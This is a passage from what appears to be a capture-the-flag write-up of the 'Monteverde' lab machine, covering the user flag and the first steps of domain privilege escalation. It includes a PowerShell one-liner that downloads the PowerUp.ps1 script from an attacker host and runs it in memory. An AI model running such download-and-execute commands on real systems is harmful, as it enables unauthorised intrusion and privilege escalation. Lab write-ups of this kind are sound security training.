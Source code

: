 - We can view the user flag

![](assets/Monterverde_assets/Pasted%20image%2020231114133722.png)

## Domain Privilege Escalation

- we can run our PowerUp script, we can see some possible DLL hijack vulnerabilities

```
IEX(New-Object Net.webClient).downloadString('http://10.10.14.20/PowerUp.ps1');Invoke-AllChecks
```


![](assets/Monterverde_assets/Pasted%20image%2020231114135308.png)

- but if we keep looking through, we see that we have an .Azure directory in our mhope home directory

![](assets/Monterverde_assets/Pasted%20image%2020231114141213.png)
